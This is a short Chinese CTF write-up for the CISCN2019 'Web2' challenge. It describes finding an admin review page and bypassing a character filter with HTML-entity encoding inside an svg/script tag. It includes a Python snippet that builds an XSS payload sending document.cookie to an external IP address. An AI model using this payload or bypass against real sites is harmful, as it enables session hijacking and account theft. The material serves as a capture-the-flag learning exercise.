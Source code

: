 ## [CISCN2019 华东北赛区]Web2

因为buu上面的不出网，只能用它的xss平台，而我又一直注册不了，就自己拉**docker**建了一下

![image-20221220121846207](ciscn.assets/image-20221220121846207.png)

可以注册，投稿，然后将投稿的页面反馈给管理员（通过扫后台，扫到**admin.php**，很明显就是要xss拿cookie了

简单fuzz可知，`= ' " ()`都被过滤了，可以利用编码绕过

```python
in_str = "window.location.href='http://1.15.107.150:3296?c='+document.cookie"
output = ""
for c in in_str:
    output += "&#" + str(ord(c))
print("<svg><script>" + output + "</script>")
```

必须要在最前面加上`<svg>`标签才行

![image-20221220122409916](ciscn.assets/image-20221220122409916.png)
